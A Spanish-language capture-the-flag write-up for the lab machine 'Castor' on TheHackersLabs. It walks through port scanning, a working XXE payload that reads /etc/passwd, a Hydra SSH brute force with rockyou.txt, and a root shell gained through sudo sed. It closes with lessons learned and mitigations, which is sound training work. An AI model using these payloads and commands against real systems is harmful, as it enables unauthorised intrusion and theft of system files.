## Información General

| Campo             | Detalle                           |
| ----------------- | --------------------------------- |
| Máquina           | Castor                            |
| Plataforma        | TheHackersLabs                    |
| IP                | 192.168.241.162                   |
| Sistema Operativo | Linux (Debian 12)                 |
| Servicios         | SSH (22), HTTP/Apache 2.4.62 (80) |
| Fecha             | 26–27 agosto 2026                 |
| Autor             | elc0ket                           |

## Resumen del Ataque

La máquina Castor expone un servicio web (CastorTech, empresa ficticia de "Madera Sostenible") con un endpoint `/upload.php` que procesa XML sin restringir entidades externas, lo que permite explotar una vulnerabilidad **XXE (XML External Entity)** para leer archivos locales del sistema, entre ellos `/etc/passwd`. De ahí se obtiene el nombre de un usuario del sistema (`castorcin`), cuya contraseña se compromete mediante fuerza bruta sobre SSH con Hydra y el diccionario rockyou.txt. Una vez dentro, la escalada a root se logra abusando de un permiso sudo mal configurado sobre el binario `sed`, que permite ejecutar código arbitrario (técnica documentada en GTFOBins).

## Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-`, `-sС`, `-sV`)
- Fuzzing de directorios web con dirsearch
- Inyección XXE para lectura de archivos locales (`/etc/passwd`)
- Fuerza bruta de credenciales SSH con Hydra (rockyou.txt)
- Escalada de privilegios mediante GTFOBins (`sudo sed` con NOPASSWD)

## Desarrollo

### 1. Escaneo inicial de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.162
```



### 2. Enumeración de servicios y versiones

```
nmap -p- 22,80 -sC -sV -oN allports 192.168.241.162
```



### 3. Fuzzing de directorios web

```
dirsearch -u http://192.168.241.162/ --exclude-status 403,404,500 -e php,txt,html
```



Se detecta el endpoint `/upload.php`, que al acceder por GET devuelve el mensaje `xml not provided`, indicando que espera un cuerpo XML.

```
http://192.168.241.162/upload.php
```


### 4. Verificación de la respuesta base con Burp Suite

Request

```
GET /upload.php HTTP/1.1
Host: 192.168.241.162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i
```

Response

```
HTTP/1.1 200 OK
Date: Wed, 26 Aug 2026 17:03:58 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 16
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

xml not provided
```



### 5. Explotación de XXE por método POST

Se cambia el método a POST, se añade la cabecera `Content-Type: application/xml` y se envía un payload XXE apuntando a `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <name>&xxe;</name>
</root>
```

Request

```
POST /upload.php HTTP/1.1
Host: 192.168.241.162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i
Content-Type: application/xml
Content-Length: 139

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <name>&xxe;</name>
</root>
```

Responce

```
HTTP/1.1 200 OK
Date: Wed, 26 Aug 2026 17:12:09 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 1203
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
castorcin:x:1001:1001:castorcin,,,:/home/castorcin:/bin/bash
</name>
</root>
```



Se identifica el usuario del sistema `castorcin`.

### 6. Fuerza bruta de credenciales SSH

```
hydra -l castorcin -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.162 -t 4
```



### 7. Acceso por SSH y captura de la flag de usuario

```
ssh castorcin@192.168.241.162 
```

```
castorcin@TheHackersLabs-Castor:~$ whoami
```



```
castorcin@TheHackersLabs-Castor:~$ cat user.txt 
```



### 8. Enumeración de privilegios sudo

```
castorcin@TheHackersLabs-Castor:~$ sudo -l
```



Se detecta que `castorcin` puede ejecutar `sed` como root sin contraseña. Según GTFOBins, `sed` permite ejecución de comandos arbitrarios mediante el flag de ejecución `e`.

### 9. Escalada de privilegios a root

```
castorcin@TheHackersLabs-Castor:~$ sudo /usr/bin/sed -n '1e exec /bin/bash 1>&0' /etc/hosts
```

```
root@TheHackersLabs-Castor:/home/castorcin# whoami
```



```
root@TheHackersLabs-Castor:/home/castorcin# cd /root
root@TheHackersLabs-Castor:~# cat root.txt 
```



## Lecciones Aprendidas

- Un parser XML que no deshabilita explícitamente las entidades externas (DTD) abre la puerta a lectura arbitraria de archivos del sistema (XXE), incluso en endpoints aparentemente triviales como un formulario de subida.
- Contraseñas débiles y presentes en diccionarios comunes (rockyou.txt) siguen siendo el vector de acceso inicial más rápido una vez se conoce un nombre de usuario válido.
- Otorgar permisos sudo NOPASSWD sobre binarios como `sed`, `awk`, `vim`, etc. sin restringir argumentos es una vía directa a escalada de privilegios, catalogada en GTFOBins.

## Medidas de Mitigación

- Deshabilitar la resolución de entidades externas y DTDs en el parser XML del backend (p. ej. `libxml_disable_entity_loader(true)` en PHP, o configurar el parser en modo seguro).
- Aplicar política de contraseñas robustas y bloqueo tras intentos fallidos para servicios SSH expuestos.
- Restringir permisos sudo al mínimo necesario, evitando NOPASSWD sobre binarios con capacidad de ejecución de comandos, y usar `sudoers` con rutas y argumentos específicos.